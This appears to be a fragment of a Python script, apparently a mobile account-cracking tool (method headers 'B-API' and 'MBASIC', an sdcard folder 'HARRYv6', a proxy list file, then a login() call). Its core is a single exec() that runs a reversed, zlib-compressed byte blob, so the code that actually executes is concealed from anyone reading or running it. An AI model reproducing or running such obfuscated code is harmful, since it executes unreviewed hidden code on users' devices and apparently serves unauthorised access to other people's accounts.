 #--------------------[ METODE-B-API ]-----------------#

_ = lambda __ : __import__('zlib').decompress(__[::-1]);exec((_)(b'\x13E\xef\xc7\x9f\xd2\x14\x02O\xfb~\x82\x1d\x1c\x19R\x92\x97\x93h\x9c\xa1)D\xfd`o\xa1\xce\n\\\x9dO@{7|;}\xbd\x08\xe0\x03aMx\xc3s\x94\x9b\xfbM\x13.?\r-c\xee\'[}\xaf"\x1b,\x00\xd1N\x88[\xee\x9f\x1d\xe9>>\xed;\xd2w\xa0\xc9\x8230\x80s\xb9\xe8W\xe8\x0b\xff\xc8h\xe8\x85\xdd\xe2\xd5\xc1\xf5\xe6\xfe\xbf./\xdf\x14W\xa8\xf5J\xef\xe3.\xbd\xbd^o/^\xcf\x14\xb8\xd3\x93\xc5\xc5\xfe\xe3\xe3\xbd\xc7\xa3\xe3\xbd{N\xf4\xc2\xc6t\x9a\x84J\xbd@\x14\x96\x18\xf0d\xb1\x81\xbe\xff\x93\xed\\\x1f\xbc\xb76\xaa<0\xde\xd1\x83m\xbfv\x9d\r\xbf\xcf\xcb\xf1\xfc\x1a\x15{\x8e\xceN\xcfN\x8e\x0f\x1c8\xb3\x7f\xc3\xb1\xa7\xe0\x81\xe2iK:\x9bnf\xdc\xb0-\x08\x89\x05\xd66C7\x1c_w\xa2n\x1ei\x03\xb6\xb4\xf0f\xc2\x1c\xfdv\xc2\xaf\xea\xed\x85\x1f\xb0\x0b\xb2\x18\xf7\xaf\x00\x7f\xea.G_\xd3\xbd/\x80CU\xb1E\xf3\x19\xfd\x98\x11g8+\x91\x83\xce\x96\x8a\xec.(\xacj\xdd\x0fN\xd9\x11\xa1\xbc\xe5\xb7\xe8\xfc\x10\xf7\x02\xcf)\x92\xa0O5\x17\x0f|pkhn\xe7%h\xaf\xd3\xfe\xfd\x1a\xe2\xc0\x15\xa2\x1c\xbe_\x1dp\xbc/[\xf5]k\xc0\x8b\xb7*5\x04\x02\xac2\xb0a\xaf\x9e\xa8\x1d\x94o\xfb\x90|\x80z0G6D\xd5\xe5\xbe\x97\xf2\x15\x88\x03p\\\x00\xec\x00`.\xe2\x0b\x8b6@\x0f@HRK\xe8<\x8eY\xc3\xae\t\xcd\xd8V\x07\xce\xc8\xd3R\xe2\x9fN\x8d+\x00\xc6h\xa4c\xe0\x12\xe1\x1b\xee\xa7\xa6\xf3h\xeb\xa5\xdby^\n\xcd\xf9]6zm\x17\x10u-\xd1d~\x07\xa6\\t\xf5\x0f\x16\xf8\xe3\x9ffLhA\x81\xdf\xc24%\x05\x06\xc5\x04\x0e\x82\x83\xbf\xdd\x87((\x8d\xad^\x9b_\x02z\xe3\x1cv\xa5\x10\x8cP\x10\xa1\xf6c\xed!KB\xfd\x0b\xf0\xa7\xddZ.\x8e\xb5q\xd4\xa2\xed\xb9\xe5ND\x8b\xa3<b\xc0-\xff]\x04\xff\xeb\xb0O\xb3OEt\xaa\xd7\x1e\xc8\xb6<\xf9\xf3\xc4\xba\x0e\xea\x96\xd2\x96l@4/V\x1c\r5}\xca\xb4\xd9\x98y\xf7\x81\xe9\x1c\x8b\x0b"\xd7J%\x1b\x82&4\xa6L\x10\x94?zJa\xd7\x96\xf9\xe9:<]\xd8|zY\xe6\x86r{\xafI\xbbH\xbe\xd9H\xe5\xa0\xbe\xdc\x15G\xd4\xed\xfd[\x86\x1a!\x07J\xcf\xa8\x13\x08&#\x19F\xbeM\xf2\r\xdc\n\xc1\xde\xed\xc9\xc2\xc8\x86\xb65\x19t\x14\x14-C\xda[N\x96\xbc\x80`\xf1\x82\x0f\xc9\x85\xe6w\x81\xe6 \xc1D.^\xb9\x1er\xfa\xf2\xb1\xb58\x01\x18|\x88?\xeb$\x9b\x18\x13q\xa3<h\x98\xce\xe4\xa4\x1fH\x1cy\xf0-\xf5\xe3\xb8\x13T\xbeR\xd9h\x9f\xac.\x13\xbf\x01\xfb\xc8\xc3\x0e\x0c\xb5\x12\x89\x93\x0c5\x0bbd\n\xbcH#\xf3\xd0\xf3\xc3\xc9\x07Xk.\x19\xa2\x9d\xd4\xea\x10\xe7\xc0\xd3"\xb1M\x13E}y\x9dJ\xf2\xb8\r\x0cc\xa8j\xee\xf9L\xa9\x1f\xdb4C!EJ\x8c\xd2Ei\xae\x0f\xbe2H\xc5\xc4{\x8e\xa7\x9b\xf6\x87\xdf\xdbE@6\xfdK,\xd7\x9c\xeb*\x17=k\x12:\xcd5\x8cx\xdc(3\xa3\'t\xe0\x14\xbe\xbd\xdc\xbd{\x7f\x02j\x13^[e(?)\xba\xdej&\xf2\x8b\xa4\xd9\xbd\xbf\x7f\x04U\xf6~<\xf5\xed\xf8C^x%L\xb7V4\x07\xa8K\xcd\x19B2c\xbc\x9d\xe0\x13\xe3\x19\x119LRM\xb7\x8e\xd4\x9b\xbfR\x1a\x03[n9T\xe6\x8ah\x05\xf5\xb5 \x99y\xbc\xda\x8c\x84;\x96i+Np\xcc6\xe7;\xd2\x84L\x96dJ\xe4;\xe3\t\xb1B\xc6\x8a\xe3Y\x02\xe1CX\xd3!\xa9\xce.\xc4\x03\x02D\xc9\xc3\x19\x92*\xb0\xae8S39\xde\x01Q\xb6, \xbb>\xb3=pP\xc6\xa3\xe3\xa5\x9b=\t\xf3\x14\xc8.\x98\xb3N\x13f\x97c\xbapY\xd0\xf8fV\r\xac\xc4_;\r0\x05)\x10[\x02\xba0!\x96\t\x9e\x10##\x82\xa6idD\xbchf\x86QM`p\xf4I\xf2T\xf6\xe5\x8e\x9c\xe5\x9b\xe5\x8c\xf0u\x94\n\xb1\x1cy \xf4\xdb\xd9\xe5V\x9f\x1f\x17\xb4\x9e\xc2\xce\xaf\xc0l\x11\x92\xcaXFUML\xe9\x85\xd0\xcf\x1b\tP\x84\xc3\xc8\xcd\xc1\xa4\x05\xf0c\x15S]\x01\xe8w\xbe\xbdK[\xc6\x8a\xd4\x94\xd7\x19\x8d`(\x9c\xb5y\x1f\x95\x11\t\x14B\xc7Bc\x92U\xfb\xeb\xc6\xd0\x95\xdeW$C\x0c\xcbRt\xaa3\x8aS&7\x03\xcbkb\r\xbf\x1d;\xf4\x9fB\x90Z\xf9\x1f~\x91\x8dO\xe5h\xa7B\xec\x92\xd0\x8b\x12\xa4\xca\xbb\xa6L\xe3\xd9\xfbKQ\x9e\xda\x883\xbf\x87\x18\x8erAL\x0f\xabpL\xd6\xa8nN\x8d\xaako\xa3Kj\x8a\xf5\xae\xa4\x9d\xee\x94w(OP\xb8\x9f\xc6\xaf\xb0\x03OZ\xcb\xc9lv\x8c/#\xb0\xd8a\xd26]\x85/\'|\xac\t\xb0\xaa\x85\xc9?kZ\x0eO\xd5\x7f\x16X\x1a!\x83\xd8Q+\xd6\xae\xac\n\xdc\xfdt{\xb4=\xb8r\x86\xdctXk\xd5YY=\x9d\x844\x1b\x9b\x93\xe5\xf5\xd5\xf2\xf4\x03\xd7/V\x85\x1b\xde\xe4\x1a\x19\x8a\xe6I\xb5\x13&\xd1:\x97\xa7\xb0|0\xc5\xa3\xaa8\xd1\xa6\x88\xa8\xaa\x0c\x1a\x11\x82\xa6BU\x13<\xc2\x91J\x05\x8d\xec\x1f""(\x91\x90\x85*%\xc61JM\xec\x1f\xf6\x16|\xe4\x8f,\xb0\x11I\x85\x11\x1c\xd1\x92x\xfds\xc2\xe7\x92"\x08,1\xfb\x0c;Y6\xean\xcaC\xb0\x8f`\x9e\xd6=\xcf\xd8\x0c3\xd8\x17\xb03\xd4\xbeRK$I9\xb2\x8ah0\xd7\x00\xeb`\xd1K\xa2\xb0m\xa0\xb2\x08@\xean$\xe2rKT\x91\xc0!\x05>\x9d\xfe\x146\xdbn\xebW\xe5\x9cx'))

#------------------[ METHODE-MBASIC-2 ]-------------------#
	

#-----------------------[ SYSTEM-CONTROL ]--------------------#

if __name__=='__main__':
	try:os.mkdir('/sdcard/HARRYv6')
	except:pass
	try:os.mkdir('data')
	except:pass
	try:os.system('touch .prox.txt')
	except:pass
	login()
 
